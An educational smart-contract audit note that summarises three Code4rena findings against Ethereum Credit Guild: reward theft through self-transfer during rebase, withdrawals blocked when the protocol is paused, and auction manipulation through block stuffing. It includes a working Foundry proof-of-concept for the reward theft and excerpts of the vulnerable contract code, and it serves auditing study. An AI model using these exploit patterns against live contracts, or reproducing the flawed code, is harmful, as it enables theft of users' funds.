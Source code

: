 # ETAAcademy-Adudit: 2. Transfer

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Transfer</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>transfer</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Anyone can steal all distributed rewards

### Self-transfer

- Summary: By executing a self-transfer of tokens while in rebase, an attacker can mint additional tokens for themselves, effectively stealing all distributed rewards until that point. This occurs due to a discrepancy in updating share balances during the transfer process, leading to an incorrect calculation of token balances.
- Impact & Recommendation: Consequently, an attacker can repeatedly exploit this flaw to siphon off rewards intended for other users.To mitigate this issue, preventing self-transfers is recommended to prevent further exploitation and potential loss of funds.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/991) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

  function testSelfTransfer() public {
    token.mint(address(this), 100e18);

    // Mint some tokens to bob and alice
    token.mint(alice, 10e18);
    token.mint(bobby, 10e18);
    // Bob enters the rebase since he wants to earn some profit
    vm.prank(bobby);
    token.enterRebase();
    // Tokens are distributed among all rebase users
    token.distribute(10e18);
    // Nobody claims the rebase rewards for 10 days - just for an example
    // Alice could frontrun every call that changes the unmintedRebaseRewards atomically
    // and claim all the rewards for herself
    vm.warp(block.timestamp + 10 days);
    // --------------------- ATOMIC TX ---------------------
    vm.startPrank(alice);
    token.enterRebase();
    uint256 token_balance_alice_before = token.balanceOf(alice);
    // Here the max she could transfer and steal is the unmintedRebaseRewards() amount
    // but we are using 3e18 just for an example as 3e18 < unmintedRebaseRewards()
    // since there is no public getter for unmintedRebaseRewards
    token.transfer(alice, 3e18);
    token.exitRebase();
    vm.stopPrank();
    uint256 token_balance_alice = token.balanceOf(alice);
    // --------------------- END ATOMIC TX ---------------------
    console.log("Token balance alice before : ", token_balance_alice_before);
    console.log("Token balance alice after  : ", token_balance_alice);
    console.log("--------------------------------------------------");
    console.log("Alice profit credit        : ", token_balance_alice - token_balance_alice_before);
  }


  ```

  </details>

## 2. [Medium] Inability to withdraw funds for certain users due to whenNotPaused modifier in RateLimitedMinter

### EmergencyWithdraw for paused protocol

- Summary: The GUARDIAN role is meant to freeze new protocol usage but allow fund withdrawals. However, the whenNotPaused modifier in the RateLimitedMinter.mint() function prevents users from withdrawing funds if they have CREDIT tokens staked with pending guild rewards. This occurs because the SurplusGuildMinter.unstake() function, called during withdrawal, tries to mint rewards through RateLimitedMinter.mint() by getRewards(), which fails if the protocol is paused.

- Impact & Recommendation: Introduce emergencyWithdraw for users to withdraw funds, excluding rewards when the protocol is paused.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1249) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function unstake(address term, uint256 amount) external {
        // apply pending rewards
        (, UserStake memory userStake, bool slashed) = getRewards(
            msg.sender,
            term
        );
    ...


    function getRewards(
        address user,
        address term
    )
        public
        returns (
            uint256 lastGaugeLoss, // GuildToken.lastGaugeLoss(term)
            UserStake memory userStake, // stake state after execution of getRewards()
            bool slashed // true if the user has been slashed
        )
    {
    ...

                // forward rewards to user
            if (guildReward != 0) {
                RateLimitedMinter(rlgm).mint(user, guildReward);
                emit GuildReward(block.timestamp, user, guildReward);
            }
    ...

    function mint(
        address to,
        uint256 amount
    ) external onlyCoreRole(role) whenNotPaused {
        _depleteBuffer(amount); /// check and effects
        IERC20Mintable(token).mint(to, amount); /// interactions
    }


  ```

  </details>

## 3. [Medium] Auction manipulation by block stuffing and reverting on ERC-777 hooks

### Block stuffing attack on the auction

- Summary: A low immutable auction duration set in the deployment script can enable profitable block stuffing attacks on desired Layer 2 (L2) chains. The attacker borrows a loan to receive credit tokens and deposit collateral into the protocol. After the first partial duration, the attacker fails to repay the loan and initiates an auction. The attacker exploits the system by preventing bids until the midpoint, reducing costs, then begins block stuffing to acquire collateral by less credit tokens. Ultimately, the attacker may acquire almost the full loan amount, surpassing the gas cost for block stuffing.

- Impact & Recommendation: The attacker can manipulate the auction to acquire full collateral for almost zero credit tokens, resulting in loss for all stakers on the term. Increasing auction duration and implementing fixes to prevent bad debt from collateral token blacklisting can mitigate such attacks and prevent total loss of stake for lenders.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/685) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function bid(bytes32 loanId) external {
        ...
        LendingTerm(_lendingTerm).onBid(
            loanId,
            msg.sender,
            auctions[loanId].collateralAmount - collateralReceived, // collateralToBorrower
            collateralReceived, // collateralToBidder
            creditAsked // creditFromBidder
        );
        ...
    }
    function onBid(
        bytes32 loanId,
        address bidder,
        uint256 collateralToBorrower,
        uint256 collateralToBidder,
        uint256 creditFromBidder
    ) external {
        ...
        int256 pnl;
        uint256 interest;
        if (creditFromBidder >= principal) {
            interest = creditFromBidder - principal;
            pnl = int256(interest);
        } else {
            pnl = int256(creditFromBidder) - int256(principal);
            principal = creditFromBidder;
            require(
                collateralToBorrower == 0,
                "LendingTerm: invalid collateral movement"
            );
        }
        ...
        // handle profit & losses
        if (pnl != 0) {
            // forward profit, if any
            if (interest != 0) {
                CreditToken(refs.creditToken).transfer(
                    refs.profitManager,
                    interest
                );
            }
            ProfitManager(refs.profitManager).notifyPnL(address(this), pnl);
        }
        ...
    }
    function notifyPnL(
        address gauge,
        int256 amount
    ) external onlyCoreRole(CoreRoles.GAUGE_PNL_NOTIFIER) {
        ...
        // handling loss
        if (amount < 0) {
            uint256 loss = uint256(-amount);
            // save gauge loss
            GuildToken(guild).notifyGaugeLoss(gauge);
            // deplete the term surplus buffer, if any, and
            // donate its content to the general surplus buffer
            if (_termSurplusBuffer != 0) {
                termSurplusBuffer[gauge] = 0;
                emit TermSurplusBufferUpdate(block.timestamp, gauge, 0);
                _surplusBuffer += _termSurplusBuffer;
            }
            if (loss < _surplusBuffer) {
                // deplete the surplus buffer
                surplusBuffer = _surplusBuffer - loss;
                emit SurplusBufferUpdate(
                    block.timestamp,
                    _surplusBuffer - loss
                );
                CreditToken(_credit).burn(loss);
            }
        } ...
    }
    function notifyGaugeLoss(address gauge) external {
        require(msg.sender == profitManager, "UNAUTHORIZED");
        // save gauge loss
        lastGaugeLoss[gauge] = block.timestamp;
        emit GaugeLoss(gauge, block.timestamp);
    }
    /// @notice apply a loss that occurred in a given gauge
    /// anyone can apply the loss on behalf of anyone else
    function applyGaugeLoss(address gauge, address who) external {
        // check preconditions
        uint256 _lastGaugeLoss = lastGaugeLoss[gauge];
        uint256 _lastGaugeLossApplied = lastGaugeLossApplied[gauge][who];
        require(
            _lastGaugeLoss != 0 && _lastGaugeLossApplied < _lastGaugeLoss,
            "GuildToken: no loss to apply"
        );
        // read user weight allocated to the lossy gauge
        uint256 _userGaugeWeight = getUserGaugeWeight[who][gauge];
        // remove gauge weight allocation
        lastGaugeLossApplied[gauge][who] = block.timestamp;
        _decrementGaugeWeight(who, gauge, _userGaugeWeight);
        if (!_deprecatedGauges.contains(gauge)) {
            totalTypeWeight[gaugeType[gauge]] -= _userGaugeWeight;
            totalWeight -= _userGaugeWeight;
        }
        // apply loss
        _burn(who, uint256(_userGaugeWeight));
        emit GaugeLossApply(
            gauge,
            who,
            uint256(_userGaugeWeight),
            block.timestamp
        );
    }

  ```

  </details>
